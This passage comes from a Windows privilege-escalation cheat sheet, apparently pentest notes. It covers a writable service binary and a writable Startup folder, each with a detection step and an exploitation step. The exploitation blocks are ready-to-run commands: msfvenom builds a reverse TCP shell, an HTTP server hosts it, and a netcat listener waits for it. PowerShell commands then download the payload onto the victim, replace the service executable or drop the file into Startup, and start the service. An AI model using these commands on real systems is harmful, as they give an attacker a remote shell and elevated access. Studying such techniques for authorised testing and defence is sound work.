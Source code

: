 or

```
winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

filepermsvc(Apache Software Foundation - File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
	File Permissions: Everyone [AllAccess]
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', 'C:\Temp\program.exe')
copy /y c:\Temp\program.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
sc start filepermsvc
```

#### Startup applications

##### Detection

```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\>icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                             TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)

If the user you're connecte with has full access ‘(F)’ to the directory (here Users) then it's vulnerable.
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')

To execute it with elevated privileges we need to wait for someone in the Admin group to login.
```
